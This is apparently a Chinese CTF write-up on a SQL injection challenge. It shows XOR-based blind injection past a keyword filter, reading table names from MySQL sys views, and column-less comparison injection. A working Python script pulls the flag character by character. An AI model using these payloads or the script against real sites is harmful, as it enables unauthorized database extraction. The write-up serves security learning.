






## 思路

1. 打开页面显示输入框，输入1，使用burpsuite拦截查看请求格式，如下：



也可尝试输入字符，发现bool(false)。



由此推断，此处应该是存在整型注入。

2. 输入2-1，发现返回结果和直接输入1一样，由此可以确定是整型注入。

   

3. 尝试1 and/or 1=1，发现返回结果显示`SQL Injection Checked`，说明会检查关键字。利用burpsuite Intruder进行fuzz，探测后端会过滤哪些关键字。关键字列表参考[fuzz.txt](./script/fuzz.txt)。

4. 注意在进行fuzz时，按照下面的格式进行，如果直接将关键字作为参数传入，则后端会直接返回bool(false)。

   

   fuzz结果如下，可以看出and or这些均被过滤，则可以考虑尝试^注入。

   以及union也被过滤，则不能简单使用union注入。

   

5. 尝试1^1^1，发现成功，说明异或注入这条路可以走通。

   

   使用下面的脚本进行布尔型注入（与FinalSQL类似）。

   重点语句：

   - 爆破数据表：`"1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)`

   - 爆破表名：

     `"1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(sys.x$schema_flattened_keys)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)`

     > 注意：常用爆破表名的方法都是从information_schema.tables中获取，但由于本题过滤了or，因此该方法不行
     >
     > 其他获取表名的方法：
     >
     > - select group_concat(table_name) from **sys.x$schema_flattened_keys** where table_schema=database()
     > - select group_concat(table_name) from **sys.schema_table_statistics_with_buffer** where table_schema=database()

   - 爆破列名：没有办法获取列名--》**无列名注入**

     > **使用条件&方法**
     >
     > 无列名注入主要是适用于已经获取到数据表，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。
     >
     > 无列名注入的原理其实很简单，类似于将我们不知道的列名进行取别名操作，在取别名的同时进行数据查询，所以，如果我们查询的字段多于数据表中列的时候，就会出现报错。

     一般情况下的无列名查询可以参考[CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)。常见的都会使用union select，但从前面我们已经可以得知，union被过滤掉，无法使用。

6. 参考其他wp，学到新方法。核心思路：`(select 1,"G")>(select * from f1ag_1s_h3r3_hhhhh)`

   脚本如下：

```python
url = 'http://1001b419-095b-467b-8a4e-63cd0c8440bd.node3.buuoj.cn/'
i = 0
flag = ''
while True:
    i += 1
    # 从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin + end) // 2
    while begin < end:
        print(begin, tmp, end)
        time.sleep(0.1)
        # 爆数据库 give_grandpa_pa_pa_pa
        # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
        # 爆表 f1ag_1s_h3r3_hhhhh,users233333333333333
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(sys.x$schema_flattened_keys)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
        # 爆字段
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
        
        payload = "1^((select * from f1ag_1s_h3r3_hhhhh)>(1,'%s'))^1" % (flag+chr(tmp))
        print(payload)
        data={"id":payload}
        r = requests.post(url,data=data)
        if 'Nu1L' in r.text:
            begin = tmp + 1
        else:
            end = tmp
        tmp = (begin + end) // 2

    flag += chr(tmp-1)
    #flag += chr(tmp)
    print(flag)
    #if begin == 32:
    if begin == 33:    
        break

```

## 总结

- 本题大致思路其实和[极客大挑战 2019FinalSQL]([极客大挑战%202019]FinalSQL.md)一致，都采用异或注入，脚本思路大致相同。
- 本题重点在于积累**无列名注入**的方法和在过滤了information的情况如何获取数据库表名。

## 参考链接

- [CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)